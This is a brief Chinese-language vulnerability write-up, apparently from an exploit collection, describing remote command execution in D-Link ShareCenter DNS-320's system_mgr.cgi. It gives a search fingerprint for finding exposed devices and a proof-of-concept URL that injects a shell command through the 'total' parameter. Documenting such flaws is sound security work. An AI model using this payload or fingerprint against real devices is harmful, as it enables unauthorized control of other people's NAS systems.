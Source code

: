 # 

# D-Link ShareCenter DNS-320 system_mgr.cgi 远程命令执行漏洞

## 漏洞描述

D-Link ShareCenter DNS-320 system_mgr.cgi 存在远程命令执行，攻击者通过漏洞可以控制服务器

## 漏洞影响

```
D-Link ShareCenter DNS-320
```

## 网络测绘

```
app="D_Link-DNS-ShareCenter"
```

## 漏洞复现

登录页面如下

![](./images/202202162224540.png)

漏洞POC为

```plain
/cgi-bin/system_mgr.cgi?cmd=cgi_get_log_item&total=;ls;
```

![](./images/202202162224614.png)
